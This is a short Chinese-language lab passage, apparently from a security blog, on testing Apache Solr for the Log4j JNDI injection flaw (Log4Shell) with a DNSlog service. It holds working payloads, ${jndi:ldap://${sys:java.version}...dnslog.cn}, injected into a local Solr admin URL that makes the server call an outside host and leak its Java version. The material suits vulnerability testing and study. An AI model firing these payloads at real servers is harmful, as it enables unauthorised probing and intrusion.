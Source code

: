 **Dnslog测试**

在DNSlog平台请求一个dns域名：`3j7r1s.dnslog.cn`

![](assets/b97f9bf0115517c71c4aea0966520eb4.png)

构造：

${jndi:dns://${sys:java.version}.example.com}是利用JNDI发送DNS请求的Payload：

代码语言：javascript

复制

```
http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.3a5h27.dnslog.cn}
```

直接访问：

代码语言：javascript

复制

```
http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.3j7r1s.dnslog.cn}
```

![](assets/abf7267f95f21d916d8da510cb2806bd.png)
